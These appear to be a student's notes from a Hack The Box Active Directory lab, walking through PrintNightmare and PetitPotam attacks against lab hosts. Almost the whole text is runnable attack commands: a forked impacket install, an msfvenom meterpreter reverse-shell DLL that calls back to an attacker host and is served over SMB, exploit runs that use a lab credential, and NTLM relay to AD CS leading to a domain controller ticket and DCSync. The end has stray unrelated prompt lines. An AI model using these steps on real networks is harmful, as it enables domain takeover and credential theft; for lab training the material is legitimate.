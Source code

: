 [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) found in the print spooler service.

Exploit to use: `https://github.com/cube0x0/CVE-2021-1675.git` developed by `cube0x0`

For this exploit to run, we need to use cube0x0’s version of impacket which can be achieved as;

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

- `dollarboysushil@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'` → enumerating for ms-rprn
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll` → crafting dll payload
- `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` → creating SMB share using smbserver.py
- then start msf multi/handler
    - use explit/multi/handler set payload windows/x64/meterpreter/reverse_tcp set lhost, set lport and run
- `sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'` → running the shell.

# **PetitPotam (MS-EFSRPC)**

[CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) allows unauthenticated attacker to coerce a DC to authenticate against another host using NTLM over the port 445

- `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController`
    
    starting ntlmrelay 
    
- `dollarboysushil@htb[/htb]**$** python3 PetitPotam.py 172.16.5.225 172.16.5.5`
    
    running [petitpotam.py](http://petitpotam.py) with attackerhost IP and DC ip to force DC to authenticate to our host when nrlmrelayx is running.
    

In our ntlmrelay running tab, we will see successfull login request and base64 encoded certificate for the domain controller.

Using the base64 certificate, we can use [gettgtpkinit.py](http://gettgtpkinit.py) tool to request TGT for the domain controller.

- `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache`
    
    The TGT will be saved to dc01.ccache file. lets set the KRBCCNAME env variable to  that ccache
    
- `dollarboysushil@htb[/htb]**$** export KRB5CCNAME=dc01.ccache`

Using DC TGT lets do DCSync 


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist